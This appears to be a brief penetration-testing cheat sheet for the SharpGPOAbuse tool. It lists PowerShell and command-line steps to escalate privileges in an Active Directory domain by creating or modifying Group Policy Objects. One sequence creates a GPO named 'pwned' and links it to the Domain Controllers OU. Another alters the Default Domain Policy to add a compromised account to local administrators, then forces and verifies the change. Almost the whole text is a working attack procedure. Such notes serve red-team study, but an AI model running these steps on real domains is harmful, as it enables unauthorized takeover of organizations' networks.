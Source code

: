 # SharpGPOAbuse 

## Github repo: https://github.com/byronkg/SharpGPOAbuse/releases/tag/1.0

### Use case: Our compromised user has the permissions to create GPOs OR modify already existing GPOs

### Usage:

## GPO Creation

    New-GPO -Name pwned -Comment "You have been pwned" (Create a new GPO)

    New-GPLink -Name pwned -Target "OU=Domain Controllers,DC=DOMAIN,DC=LOCAL" -LinkEnabled Yes (Create a new GPLink)

    .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount OUR_COMPROMISED_ACCOUNT --gponame pwned

    gpupdate /force

## GPO Modification

    Get-GPO -All | Select-Object -ExpandProperty DisplayName (Enumerate All GPOs)

    ./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount USER --GPOName "Default Domain Policy" (Modify an existing GPO to add our user to local administrators group)

    gpupdate /force (Immediately apply our GPO modification)

    net localgroup Administrators (Verify our user is in the local administrators group)
